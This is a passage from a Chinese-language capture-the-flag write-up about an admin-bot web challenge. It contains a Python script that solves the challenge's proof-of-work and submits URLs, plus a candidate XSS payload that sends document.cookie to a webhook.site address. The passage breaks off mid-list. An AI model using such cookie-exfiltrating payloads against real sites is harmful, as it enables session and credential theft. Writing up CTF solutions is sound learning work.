 - **`/visit` 底下關於 url 和 nonce 的詳細限制**
    - ![image](https://hackmd.io/_uploads/HypI4rZIel.png)

&emsp;

4. **針對 <span class="blue">nonce 挑戰</span>的部分，題目有附一個 solver ，我稍微改動了一下讓 script 可以直接用。另外關於造訪根目錄，可以<span class="red">直接向 `http://localhost:5000/` 發送請求</span>並在後方直接加上 `URL query string` 就能夠拿到 flask 的回應物件 (cookie flag) 
(因為<span class="red">這個 instance 就是跑在 port 5000 上</span>)**

- **目前 payload 的骨架：**
    ```python=
    import requests
    import json
    import urllib.parse
    from solve_pow import solve_pow


    url = "http://chal.78727867.xyz:21337"

    # must create session to retain cookie
    s = requests.Session()

    # get the challenge nonce 
    chal_response = s.get(url = f'{url}/get_challenge')
    data = json.loads(chal_response.text)
    nonce = solve_pow(data["challenge"])

    relay_url = f'http://localhost:5000/?url=...&name=...'
    encoded_relay_url = urllib.parse.quote(relay_url)

    payload_response = s.get(url = f'{url}/visit?url={encoded_relay_url}&nonce={nonce}')
    ```

- **題目給的 `solver` ：**
    - ![image](https://hackmd.io/_uploads/B1izdHbLge.png)

- **針對 step 3 part (1) 的 script ：**
    - ![image](https://hackmd.io/_uploads/rJDNvB-8lx.png)

- **`app.py` 跑在 5000 上：**
    - ![image](https://hackmd.io/_uploads/rktMG8bUgl.png)

&emsp;

5. **處理完 step 3 part (1) 後，接下來要處理的就是 step 3 part (2) ，也是本題的重點——如何<span class="red">在 url 長度 ${\le15}$ 的限制</span>之內把 cookie flag 送到 `webhook.site` ，在比賽中我想過很多相關的 url payload ，例如：**

    ```python=
    payload = f'data:text/html,<script>location="{webhook}/?c="+document.cookie</script>'
    encoded_payload = urllib.parse.quote(payload)

    relay_url = f'http://localhost:5000/?url={encoded_payload}'
    payload_response = s.get(url = f'{url}/visit?url={encoded_relay_url}&nonce={nonce}')
    ```
- **或是：**
